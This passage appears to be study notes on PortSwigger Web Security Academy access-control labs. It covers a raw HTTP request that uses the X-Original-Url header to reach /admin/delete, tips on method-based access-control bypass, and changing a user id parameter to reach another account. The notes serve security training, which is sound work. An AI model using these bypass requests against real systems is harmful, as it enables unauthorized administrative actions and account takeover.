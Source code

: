 ```html
Priority: u=0, i
X-Original-Url: /admin
```

- Ok, we are able to see admin panel, cool (you could check delete links),  now we could try to update our initial request(pay attention that params could not be inside of the header but we could add them to a path which will be appended to `/admin/delete` part of path):

```html
GET /?username=carlos HTTP/2
Host: 0a5600af0361a790811bbb76004e0029.web-security-academy.net
Cookie: session=ZXVcX03D2Ro7YjEaVZxfbpGJv0bBqpoG
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5600af0361a790811bbb76004e0029.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Original-Url: /admin/delete
Content-Length: 2
```

#### Lab: Method-based access control can be circumvented

- An alternative attack relates to the HTTP method used in the request. The front-end controls described in the previous sections restrict access based on the URL and HTTP method. Some websites tolerate different HTTP request methods when performing an action. If an attacker can use the GET (or another) method to perform actions on a restricted URL, they can bypass the access control that is implemented at the platform layer.

- You got admin account creds, so you can login as admin, try all the things admin can, logout and login as a user, copy admins request to promote user, update session cookies and try to send a request, try then to update method

### Horizontal privilege escalation (Apprentice)

#### Lab: User ID controlled by request parameter

- Update `id=wiener` -> `id=carlos`

#### Lab: User ID controlled by request parameter, with unpredictable user IDs
